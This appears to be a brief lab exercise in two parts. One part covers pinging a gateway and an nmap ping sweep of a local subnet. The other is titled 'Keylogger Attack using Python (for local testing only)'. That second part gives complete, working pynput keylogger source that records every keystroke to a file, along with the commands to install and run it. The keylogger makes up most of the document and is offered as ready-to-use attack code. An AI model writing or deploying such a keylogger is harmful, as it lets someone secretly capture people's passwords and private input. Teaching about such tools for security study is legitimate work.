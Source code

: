 use ping and ip scanner to scan the network list your findings
*1. Use Ping and IP Scanner to Scan the Network*

#### A. *Ping the Network:*
In terminal:

bash
ping -c 4 192.168.1.1


Replace 192.168.1.1 with your *default gateway IP*.

#### B. *Scan IP Range with nmap:*

1. Install it (if needed):

bash
sudo apt install nmap


2. Scan the network:

bash
nmap -sn 192.168.1.0/24


2. Keylogger Attack using Python (for local testing only)*
Steps:

1. Create the script:

bash
nano keylogger.py


2. Paste this code:

python
from pynput.keyboard import Listener

def on_press(key):
    with open("log.txt", "a") as f:
        try:
            f.write(f"{key.char}")
        except AttributeError:
            f.write(f" [{key}] ")

with Listener(on_press=on_press) as listener:
    listener.join()


3. Install the required library:

bash
pip install pynput


4. Run the keylogger:

bash
python3 keylogger.py
It will record all keypresses into log.txt in the same directory.
